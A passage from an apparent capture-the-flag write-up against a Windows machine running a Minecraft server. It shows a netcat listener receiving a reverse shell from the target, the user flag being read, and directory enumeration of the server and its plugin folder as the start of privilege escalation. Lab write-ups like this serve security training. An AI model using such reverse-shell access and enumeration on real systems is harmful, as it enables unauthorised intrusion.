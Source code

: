 ## User Shell
```
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.249] 49750
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>type C:\Users\svc_minecraft\Desktop\user.txt
caa88d71283eaf94c7d6026c3fe2957f
```

# Privilege Escalation
## Enumeration
Looking for necessary files
```
c:\users\svc_minecraft\server>dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\users\svc_minecraft\server

10/26/2023  05:37 PM    <DIR>          .
10/26/2023  05:37 PM    <DIR>          ..
11/14/2023  10:00 PM                 2 banned-ips.json
11/14/2023  10:00 PM                 2 banned-players.json
10/24/2023  12:48 PM               183 eula.txt
03/09/2024  09:07 AM    <DIR>          logs
11/14/2023  11:22 PM                 2 ops.json
10/27/2023  01:48 PM    <DIR>          plugins
10/24/2023  12:43 PM        37,962,360 server.jar
11/14/2023  10:00 PM             1,130 server.properties
03/09/2024  10:45 AM               410 usercache.json
10/24/2023  12:51 PM                 2 whitelist.json
03/09/2024  10:45 AM    <DIR>          world
               8 File(s)     37,964,091 bytes
               5 Dir(s)   3,652,505,600 bytes free

c:\users\svc_minecraft\server>dir plugins
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\users\svc_minecraft\server\plugins

10/27/2023  01:48 PM    <DIR>          .
10/27/2023  01:48 PM    <DIR>          ..
10/27/2023  01:48 PM             9,996 playercounter-1.0-SNAPSHOT.jar
               1 File(s)          9,996 bytes
               2 Dir(s)   3,652,505,600 bytes free

c:\users\svc_minecraft\server>
```
